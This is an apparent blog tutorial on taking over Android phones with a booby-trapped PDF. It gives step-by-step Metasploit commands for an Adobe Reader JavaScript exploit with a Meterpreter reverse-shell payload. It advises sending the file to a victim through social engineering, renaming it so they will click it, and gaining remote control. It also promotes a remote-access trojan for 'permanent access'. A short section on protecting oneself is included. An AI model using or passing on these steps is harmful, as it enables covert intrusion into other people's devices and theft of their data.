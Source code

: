 ```yaml
---
title: 'Hacking android with pdf file (adobe reader and javascript exploit)
www.hackshala.in'
date: 2019-12-16T20:36:00+01:00
draft: false
---
```


[www.hackshala.in](http://www.hackshala.in/)
--------------------------------------------

### **Step 1:** **Start Kali Linux.**

Start your Kali Linux machine and open Metasploit console to start hacking android with a pdf file.  
![](https://myhackingworld.com/wp-content/uploads/2019/06/m4.jpg)  

### **Step 2:** **Make the malicious pdf file with the adobe reader** **exploit**

To make a malicious pdf file type the following commands in msf console:  
**use exploit/android/fileformat/adobe\_reader\_pdf\_js\_interface  
**  
**set payload android/meterpreter/reverse\_tcp**  
**set lhost 192.168.182.136 (your IP here)**  
**set port 20068**  
**exploit**  
![](https://myhackingworld.com/wp-content/uploads/2019/09/Kali-Linux-2019.2-vmware-amd64-2019-09-07-17-54-21-min-1024x576.jpg)  
  

### **Step 3: Hack the android device with pdf file**

Now that the malicious pdf is ready. Use social engineering to send malicious pdf to the victim. You can use any pdf editor to edit the file and add some content to make the file look more realistic.  
The folder path is: **/root/.msf4/local/msf.pdf**  
In my case, the pdf is msf.pdf, but you can always change the name to something which the victim will click on.  
![](https://myhackingworld.com/wp-content/uploads/2019/09/Kali-Linux-2019.2-vmware-amd64-2019-09-07-17-58-28-min-1024x517.jpg)  
Note: This attack works only on limited android devices with vulnerable webview API and old adobe reader versions.  

### **Step 4: Enjoy the hack.**

Once the victim opens the malicious pdf file, the android phone will be hacked, and we will get shell access on out kali machine, and you can control it remotely with meterpreter shell. This is how easy it is to hack an android device with a pdf file  
Frankly, my best solution for hacking android phones is [**hacking with spynote**](https://myhackingworld.com/how-hackers-hack-android-phones-with-spynote-rat-tool/). Because it has no limitations and you can have permanent access. But if you want to hack any android device with a pdf, this is the way to do it.  

### **How do I protect myself from hackers using this hack?**

— UPDATE YOUR DEVICE: This bug has been long fixed by adobe and android. Make sure you update your android device and all the apps you use.

— CHANGE YOUR ANDROID DEVICE: Buy a new android device with the latest updates. Android one devices are best when it comes to security.

— OFFICIAL PLAYSTORE: Only install apps from the official play store. Do not open unknown links and files which you do not trust.

— INSTALL AN ANTIVIRUS: Install a good antivirus on your android phone. I have already written an article about [**Top 10 antivirus for android.**](https://myhackingworld.com/antivirus-apps-for-android/) Do read it.

  

### **Commonly asked questions about hacking android with pdf files:**

**Q1) Does it work on all android phones?**  
No, only with android phones having a vulnerable version of adobe reader installed and android version lollipop and below.  
**Q2) It’s not working on my kali machine?**  
Update Kali Linux and try again. Use **sudo apt-get dist-upgrade** command. Try repeating all the steps mentioned in the article. If you get any specific error, then mention it in the comment section.  
**Q3) How do I make this hack permanent?**  
Use the same method as I described in [**spynote article**](https://myhackingworld.com/how-hackers-hack-android-phones-with-spynote-rat-tool/) with NOIP. I will be writing a separate article on making hackers permanent to stay tuned and share the articles as much as you can.